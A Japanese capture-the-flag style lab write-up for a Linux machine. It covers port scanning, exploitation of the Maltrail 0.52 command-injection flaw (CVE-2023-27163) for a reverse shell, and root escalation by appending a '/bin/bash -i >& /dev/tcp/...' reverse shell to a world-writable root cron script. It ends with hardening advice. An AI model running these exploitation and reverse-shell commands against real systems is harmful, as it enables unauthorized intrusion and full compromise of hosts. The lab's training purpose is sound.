

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | 22/tcp (SSH), 80/tcp (Apache), 8338/tcp (Maltrail 0.52) |
| 主な侵入経路 | Maltrail 0.52 未認証 RCE (CVE-2023-27163) |
| 権限昇格経路 | `/var/backups/etc_Backup.sh` への書き込み可能な root の cron スクリプト |

## 偵察

### 1. ポートスキャン

詳細な列挙の前に、すべての開放ポートを特定するためにフルレンジの高速 TCP スキャンから始めます。RustScan は到達可能なポートを素早く特定し、全体的な偵察時間を短縮するのに有用です。この段階では、公開された管理サービスやカスタムアプリケーションをホストしている可能性のある通常とは異なる Web ポートを具体的に探します。

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
✅[20:44][CPU:7][MEM:79][TUN0:192.168.45.166][/home/n0z0]
🐉 > rustscan -a $ip -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where scanning meets swagging. 😎

[~] The config file is expected to be at "/home/n0z0/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.178.32:22
Open 192.168.178.32:80

```

開放ポートを特定した後、バージョンと HTTP 技術をフィンガープリントするために完全なサービス Nmap スキャンを実行します。コマンドには積極的なサービス検出 (`-sCV -sV -A`) が含まれており、フィルタリングの背後にあるターゲットを見落とさないようにホスト探索を無効化 (`-Pn`) します。目的は、脆弱なソフトウェアバージョンを検出し、確認されたバナーデータを使用して攻撃の決定を行うことです。

```bash
timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/<scan_output>.xml"
grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"
echo -e "\e[32mScan result saved to: $output_file\e[0m"
```

```bash
✅[20:43][CPU:7][MEM:78][TUN0:192.168.45.166][/home/n0z0]
🐉 > timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/<scan_output>.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-28 20:43 +0900
Nmap scan report for 192.168.178.32
Host is up (0.085s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
8338/tcp open  http    Python http.server 3.5 - 3.10
|_http-title: Maltrail
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Maltrail/0.52
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (95%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (95%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%), Linux 4.15 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   84.49 ms 192.168.45.1
2   84.47 ms 192.168.45.254
3   84.50 ms 192.168.251.1
4   84.56 ms 192.168.178.32

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.38 seconds
Scan result saved to: /home/n0z0/work/scans/<scan_output>.xml

```

ここでの主要な発見はポート `8338` の `Maltrail/0.52` です。このバージョンは CVE-2023-27163 に関連しており、リクエストパラメータを操作することでリモートコード実行を可能にする Web インターフェースの未認証コマンドインジェクションの問題です。この発見により、最速かつ最も確実な初期アクセスパスが定まります。


*キャプション: 攻撃前に Maltrail インターフェースでバージョン 0.52 を確認。*

💡 なぜ有効か
バージョンベースの脆弱性検証は、サービスバナーと攻撃対象バージョンが綺麗に一致する場合に有効です。正確なアプリケーションと公開エンドポイントを最初に確認することで、ノイズの多いブルートフォース試行を回避し、決定論的な攻撃パスに直接移行できます。

## 初期足がかり

### Maltrail 0.52 の悪用 (CVE-2023-27163)

Maltrail を特定したら、脆弱なブランチの既知の公開エクスプロイトコードをテストします。このステップではターゲット上でのコマンド実行を強制し、攻撃者ホストへのコールバックをトリガーしようとします。コード実行成功の最も直接的な指標であるターゲットがリスナーに到達するかどうかに焦点を当てます。

```bash
python3 exploit.py 192.168.45.166 80 http://192.168.178.32:8338
```

```bash
❌[21:21][CPU:1][MEM:70][TUN0:192.168.45.166][...Ochima/Maltrail-v0.53-RCE]
🐉 > python3 exploit.py 192.168.45.166 80 http://192.168.178.32:8338


```

ペイロードのコールバックを受け取るために、期待されるポートで Netcat リスナーを実行します。この時点でターゲットからのインバウンド接続とインタラクティブプロンプトを探しています。コールバックの成功により、サービスアカウントコンテキストでの初期シェルアクセスが確認されます。

```bash
nc -lvnp 80
```

```bash
❌[21:20][CPU:3][MEM:70][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.32] 34246
$

```

シェルを取得したら、すぐにユーザーレベルの証拠アクセスを検証します。目的はファイルシステムへの到達を確認し、足がかり完了の証拠として `local.txt` を取得することです。パス探索中はより速いトリアージのためにパーミッション拒否のノイズを抑制します。

```bash
find / -iname local.txt 2>/dev/null
cat /home/snort/local.txt
```

```bash
snort@ochima:/opt/maltrail-0.53$ find / -iname local.txt 2>/dev/null
/home/snort/local.txt
snort@ochima:/opt/maltrail-0.53$ cat /home/snort/local.txt
e3c3b4d04707e71073979ac1051c2375

```

💡 なぜ有効か
CVE-2023-27163 は、脆弱な Maltrail エンドポイントに到達可能な場合、事前認証なしでコマンド実行を可能にします。任意のコマンド実行が確立されると、リバースシェルはローカル列挙と権限昇格を続けるための安定したインタラクティブチャネルを提供します。

## 権限昇格

### 書き込み可能な root の cron スクリプトの悪用

次のステップは、低権限シェルから影響を与えられる特権スケジュールタスクを特定することです。プロセス監視の出力は、`/var/backups/etc_Backup.sh` を呼び出す root 所有の cron 実行チェーンを示しています。侵害されたユーザーが書き込み可能なスクリプトパスを具体的に探します。

```bash
2026/03/01 00:31:01 CMD: UID=0     PID=13017  | tar -cf /home/snort/etc_backup.tar /etc
2026/03/01 00:32:01 CMD: UID=0     PID=13020  | /bin/bash /var/backups/etc_Backup.sh
2026/03/01 00:32:01 CMD: UID=0     PID=13019  | /bin/sh -c /var/backups/etc_Backup.sh
2026/03/01 00:32:01 CMD: UID=0     PID=13018  | /usr/sbin/CRON -f -P

```

ジョブを特定したら、スクリプトを調査して root が何を実行しているかを理解します。これにより、ファイルが実際のインジェクションターゲットであるかどうか、そしてペイロードがトリガーするまで十分長く持続できるかどうかを確認します。スクリプトは現在 `tar` でバックアップ操作を実行しています。

```bash
cat /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ cat /var/backups/etc_Backup.sh
#! /bin/bash
tar -cf /home/snort/etc_backup.tar /etc
```

何かを変更する前に、侵害されたアカウントからの書き込みアクセスを確認するためにファイルパーミッションを検証します。攻撃は、root がスケジュールで実行するコンテンツを変更できる場合にのみ機能します。ここでは、誰でも書き込み可能なパーミッションにより権限昇格パスが単純明快です。

```bash
ls -la /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ ls -la /var/backups/etc_Backup.sh
-rwxrwxrwx 1 root r
```

書き込みアクセスを確認した後、cron が実行するスクリプトにリバースシェルペイロードを追記します。これにより、次の cron 実行時に root が私たちのコマンドを実行します。ペイロードが正しく追記されたことを確認するために、すぐにファイルを確認します。

```bash
echo '/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1'>>/var/backups/etc_Backup.sh
cat /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ echo '/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1'>>/var/backups/etc_Backup.sh
snort@ochima:/tmp$ cat /var/backups/etc_Backup.sh
#! /bin/bash
tar -cf /home/snort/etc_backup.tar /etc
/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1

```

次にコールバックを再度リッスンします。今回は cron がスクリプトを UID 0 として実行するため、root レベルのシェルを期待します。主要な指標はシェルプロンプトの識別子とコマンド権限です。root プロンプトにより権限昇格の成功が確認されます。

```bash
nc -lvnp 80
```

```bash
❌[9:41][CPU:4][MEM:70][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.32] 44098
bash: cannot set terminal process group (13114): Inappropriate ioctl for device
bash: no job control in this shell
root@ochima:~#
```

最後に、root のホームディレクトリから `proof.txt` を読み取ることで完全な侵害を検証します。これによりファイルシステムと権限の両方の目標が完了したことが確認されます。コマンドは単純ですが、最終的な攻撃成功の証拠として機能します。

```bash
cat /root/proof.txt
```

```bash
root@ochima:~# cat /root/proof.txt
cat /root/proof.txt
39da7501d16cfd741104861ccb4f7eb4
```

💡 なぜ有効か
この権限昇格パスは、スケジュールタスクの信頼境界の典型的な失敗です: root が非特権ユーザーが変更可能なスクリプトを実行しています。cron は root の実行コンテキストを保持するため、インジェクションされたコマンドは UID 0 を継承し、ローカルカーネルエクスプロイトなしに特権シェルを生成します。

## 認証情報

```text
認証情報なし。
```

## まとめ・学んだこと

- 偵察中に正確なサービスバージョンを確認することで、最小限のブルートフォース努力で直接的な未認証 RCE パスを発見できます。
- インターネットに公開された管理・監視サービスは迅速にパッチを適用すべきです。脆弱なバージョンは攻撃チェーン全体を崩壊させる可能性があります。
- root の cron ジョブは非 root ユーザーが書き込み可能なスクリプトを絶対に実行すべきではありません。
- スケジュールスクリプトはパーミッションを強化し（`root:root`、モード `700` 以上）、不正な変更を監視すべきです。



## 参考文献

- RustScan
- Nmap
- Maltrail
- CVE-2023-27163
- Netcat
- pspy64
- cron
